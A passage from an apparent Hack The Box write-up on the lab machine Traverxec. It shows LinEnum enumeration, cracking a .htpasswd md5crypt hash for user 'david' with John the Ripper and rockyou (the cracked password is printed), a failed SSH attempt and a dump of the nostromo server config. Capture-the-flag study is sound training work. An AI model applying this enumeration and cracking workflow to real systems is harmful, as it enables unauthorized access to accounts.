 For further enumeration, I run `LinEnum.sh` script with the thorough checks enabled and the most interesting thing that popped out of the logs was a password hash in the .htpasswd file and I used JohnTheRipper to crack the hash.

```
[-] htpasswd found - could contain passwords:
/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

root@cyb3r:/HTB/machines/traverxec-10.10.10.165# john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:47 32.57% (ETA: 23:24:05) 0g/s 101094p/s 101094c/s 101094C/s pan8oche..pan0846986097
Nowonly4me       (david)
1g 0:00:01:45 DONE (2019-11-30 23:23) 0.009506g/s 100563p/s 100563c/s 100563C/s Noyoudo..Novaem
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

I can tried using this cracked password for ssh but it didn't work hence further enumeration required.

```
# ssh david@10.10.10.165
david@10.10.10.165's password:
Permission denied, please try again.
david@10.10.10.165's password:
Permission denied, please try again.
david@10.10.10.165's password:
david@10.10.10.165: Permission denied (publickey,password)
```

As can be seen in the printout above, a publickey and password required. We need to dig deeper for the required key and this led me to check the nostromo configuration file. In the nhttpd.conf file, I found an interesting configuration where home directories(HOMEDIRS section) can be accessible via http


```
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
cat nhttpd.conf
# MAIN [MANDATORY]

servername        traverxec.htb
serverlisten        *
serveradmin        david@traverxec.htb
serverroot        /var/nostromo
servermimes        conf/mimes
docroot            /var/nostromo/htdocs
docindex        index.html

# LOGS [OPTIONAL]

logpid            logs/nhttpd.pid

# SETUID [RECOMMENDED]

user            www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess        .htaccess
```